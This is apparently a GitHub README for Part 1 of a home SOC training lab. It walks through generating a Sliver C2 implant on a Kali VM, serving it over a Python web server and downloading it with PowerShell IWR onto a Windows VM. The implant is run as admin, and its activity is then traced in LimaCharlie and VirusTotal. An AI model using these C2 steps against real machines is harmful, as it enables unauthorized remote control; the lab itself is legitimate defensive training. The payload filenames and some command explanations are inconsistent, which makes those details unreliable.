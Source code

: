 # SOC-Lab
This is a SOC focused home lab that will use a variety of tools including Sliver to simulate an attack on a vulnerable machine. During this lab the vulberable machine is the Windows VM, attacking machine will be a Kali Linux, and the monitoring tool will be LimaCharlie. 

# As a disclaimer, the original idea for this lab comes from Eric Capuano. Setting up the lab environment has been purposefully left out and I highly suggest anyone interested in replicating this lab visit his Substack page(linked below)!

[Eric's Substack](https://blog.ecapuano.com/p/so-you-want-to-be-a-soc-analyst-intro)

# SOC-Lab

## Objective

The SOC Lab is designed to showcase my skills in a simulated real world environment with an attacker(Linux) and Defender(Windows). The SOC home lab is designed to simulate real-world cybersecurity environments, allowing me to practice identifying, investigating, and mitigating cyber threats in a controlled setting. Its primary objective is to provide hands-on experience with security tools, techniques, and processes, helping me to develop practical skills in network monitoring, threat detection, and response strategies. Additionally, it aims to foster a deeper understanding of the cybersecurity landscape, including the tactics, techniques, and procedures (TTPs) used by attackers. By recreating the challenges faced by professional SOCs, this home lab serves as a valuable educational platform for an aspiring cybersecurity professional, such as myself, enhancing my readiness for careers in the rapidly evolving field of information security.
### Skills Learned

- Learning to identify and analyze potential security threats in network traffic and logs, using tools like LimaCharlie.
- Developing the skills necessary to effectively respond to and manage security incidents, including containment strategies, eradication of threats, and recovery processes.
- Gaining experience in monitoring network traffic for suspicious activity and conducting forensic analysis to understand the nature and impact of security breaches.
- Learning about the development and implementation of security policies and best practices to protect organizational assets and data.
- Acquiring the ability to use threat intelligence feeds and sources to anticipate and defend against potential cyber attacks, understanding the tactics, techniques, and procedures used by cybercriminals

### Tools Used


- VMWare to host the Virtual Environments. 
- LimaCharlie for network monitoring and management. 
- Linux VM to serve as attacking machine.
- Windows VM to serve as Victim machine.
- Sliver, an open source red team tool, used to launch payloads and maintainn persistence on victims machine.

  ### Steps: Part 1

  1. Drop into a root shell and change directory to our Sliver install
       - sudo su
       - cd /opt/sliver
  2. Launch sliver server
       - sliver-server

    ![4 Sliver](https://github.com/Lantern76/SOC-Lab/assets/119342094/6a6d3fb1-6f62-448a-97e2-3638c10332a8)

  3. Generate our first C2 session payload (within the Sliver shell) using the attacking machines IP address.
       - generate --http  --save /opt/sliver

![2 generate payload](https://github.com/Lantern76/SOC-Lab/assets/119342094/e864ec91-db64-4aa6-a74f-c910cf9d44e1)

  4. Confirm the new implant configuration
       - implants

  ![3](https://github.com/Lantern76/SOC-Lab/assets/119342094/b7064aaf-9dca-4a98-be00-011422b3f89e)

  5. Now we have a C2 payload we can drop onto our Windows VM. We’ll do that next. Go ahead and exit Sliver for now
       - exit
  6. To easily download the C2 payload from the Linux VM to the Windows VM, let’s use a little python trick that spins up a temporary web server
       - cd /opt/sliver
       - python3 -m http.server 80
  7. Switch to the Windows VM and launch an Administrative PowerShell console
  8. Now I run the following command to download my C2 payload from the Linux VM to the Windows VM, using my own Linux VM IP and the name of the payload I generated in Sliver, RAPID_PLENTY.exe, a few steps prior
       - IWR -Uri http://[Linux_VM_IP]/REGULAR_PLENTY.exe -Outfile C:\Users\User\Downloads\REGULAR_PLENTY.exe
  9. Now that the payload is on the Windows VM, we must switch back to the Linux VM SSH session and enable the Sliver HTTP server to catch the callback
       - First I need to terminate the python web server by pressing Ctrl + c
       - Next is to relaunch Sliver
           - sliver-server
        - Begin the Sliver HTTP listener
            -http
  10. Return to the Windows VM and launch a powershell session as an administrator. Afterwords launch the payload
        - C:\Users\User\Downloads\RAPID_PLENTY.exe
  11. Within a few moments, you should see my session check in on the Sliver server

  ![6 sliver sessions](https://github.com/Lantern76/SOC-Lab/assets/119342094/4383b004-3e19-43af-93b2-1d01dce94c0b)

  12. I then need to verify my session in Sliver, taking note of the Session ID
        - sessions

  ![5 sliver server](https://github.com/Lantern76/SOC-Lab/assets/119342094/0ae65380-7053-44f1-b4d8-c4bf2a50fd3a)

  13. To interact with my new C2 session, I type the following command into the Sliver shell, swapping [session_id] with one shown in image

  ![7 sliver sessions](https://github.com/Lantern76/SOC-Lab/assets/119342094/b0ef3872-d516-4add-833b-2be37bf1f975)

  14. I am now interacting directly with the C2 session on my Windows VM. Let’s run a few basic commands to get our bearing on the victim host
        - Get basic info about the session
            - info
        - Find out what user my implant is running as, and learn it’s privileges
            - whoami
            - getprivs
        - As a side note, since the implant was run with admin rights, you’ll notice we have a few privileges that make further attack activity much easier, such as “SeDebugPrivilege” 

![1](https://github.com/Lantern76/SOC-Lab/assets/119342094/8024c4fd-f411-4b01-9c68-112830e5e7d9)

  15. Identify our implant’s working directory
        - netstat
  16. Identify the running processes on the remote system
        - ps -T
        - Fun tip, Sliver will higlight its own processin green and any defensive tools in red
  17. Let’s hop into the LimaCharlie web UI and check out some basic features
        - Click “Sensors” on left menu
        - Click your active Windows sensor

![8 LimaCharlie sesnsors](https://github.com/Lantern76/SOC-Lab/assets/119342094/8b526208-145a-4e70-9ee4-05f4a84f73c7)

  18. On the new left-side menu for this sensor, click “Processes”

![9 LimaCharlie Processes](https://github.com/Lantern76/SOC-Lab/assets/119342094/15ca7ee1-39c1-42b1-94a3-ec9ef085f81c)

  19. Now I need to click the “Network” tab on the left-side menu

![10 LimaCharlie Network](https://github.com/Lantern76/SOC-Lab/assets/119342094/258c12f9-b985-4406-a626-acdc2799e72c)

  20. Next I click on the “File System” tab on the left-side menu

![11 LimaCharlie file system](https://github.com/Lantern76/SOC-Lab/assets/119342094/4c04d6ad-1664-4c01-b43e-bdaff3fbcad1)

  21. Finally, I inspect the hash of the suspicious executable by scanning it with VirusTotal

![12 Virus total ](https://github.com/Lantern76/SOC-Lab/assets/119342094/afe0a49c-c917-4039-ad15-ecf695603985)


### That conclodes part 1 of the home SOC lab. Part 2 will be uploaded soon and will countinue below :) 


































  
   
